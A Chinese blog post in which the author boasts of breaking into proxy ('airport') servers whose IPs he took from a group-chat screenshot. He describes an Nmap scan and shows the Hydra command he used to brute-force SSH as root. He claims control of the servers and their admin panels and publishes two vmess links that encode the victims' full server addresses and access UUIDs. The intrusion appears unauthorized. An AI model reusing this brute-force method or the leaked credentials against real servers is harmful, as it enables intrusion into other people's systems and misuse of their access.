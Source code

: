 ```yaml
---
title: 非法搭建机场获取权限
author: APT - 0x44LL
date: 2021-01-17
category: Jekyll
layout: post
---
```


## 天网恢恢 疏而不漏
![smiley](/public/DocsPics/2022-01-10-V2rayAttack/20220207155219.png)

根据wx群聊看到有人发机场截图并暴露了IP地址
![smiley](/public/DocsPics/2022-01-10-V2rayAttack/20220207155341.jpg)

于是全部记录了下来，依次排列好；

```
168.63.xxx.106
20.187.xxx.80
20.205.xxx.204
20.212.xxx.178
```

快速Nmap扫描了一波；
![smiley](/public/DocsPics/2022-01-10-V2rayAttack/20220207155424.png)

看到22端口开放
Hydrawin版本加载字典进行端口爆破，当然要使用上我亲自开过光的字典和飞升过的动态IP了

```
hydra.exe -l root -P 22 开光字典.txt -vV -o ssh.log -e ns 127.0.0.1 ssh
```

![smiley](/public/DocsPics/2022-01-10-V2rayAttack/20220207155510.png)

**于是就这样进入了服务器...**


数据库
面板账户唯一登入密码
![smiley](/public/DocsPics/2022-01-10-V2rayAttack/20220207155528.png)

所有的管理后台面板全部拿到权限
![smiley](/public/DocsPics/2022-01-10-V2rayAttack/20220207155602.png)
![smiley](/public/DocsPics/2022-01-10-V2rayAttack/20220207155713.png)

```
vmess://ewogICJ2IjogIjIiLAogICJwcyI6ICJBWi1GMlMtSEstODAtV1MiLAogICJhZGQiOiAiMTY4LjYzLjIxMi4xMDYiLAogICJwb3J0IjogODAsCiAgImlkIjogIjRjOTA4ZTgxLWM2YzYtNGNiNy1lZDQ5LWRjODhlN2NkZjkxNCIsCiAgImFpZCI6IDAsCiAgIm5ldCI6ICJ3cyIsCiAgInR5cGUiOiAibm9uZSIsCiAgImhvc3QiOiAiZ3cuYWxpY2RuLmNvbSIsCiAgInBhdGgiOiAiIiwKICAidGxzIjogIm5vbmUiCn0=
```

```
vmess://ewogICJ2IjogIjIiLAogICJwcyI6ICJBWi1CMVMtSEstODAtV1MiLAogICJhZGQiOiAiMjAuMjA1LjExOC4yMDQiLAogICJwb3J0IjogODAsCiAgImlkIjogIjhjYzgwOWQzLTk1YzAtNDg4Yi1jZmUwLTk4ZWVlZDM4MzYzYiIsCiAgImFpZCI6IDAsCiAgIm5ldCI6ICJ3cyIsCiAgInR5cGUiOiAibm9uZSIsCiAgImhvc3QiOiAiZ3cuYWxpY2RuLmNvbSIsCiAgInBhdGgiOiAiIiwKICAidGxzIjogIm5vbmUiCn0=
```
![smiley](/public/DocsPics/2022-01-10-V2rayAttack/20220207155731.png)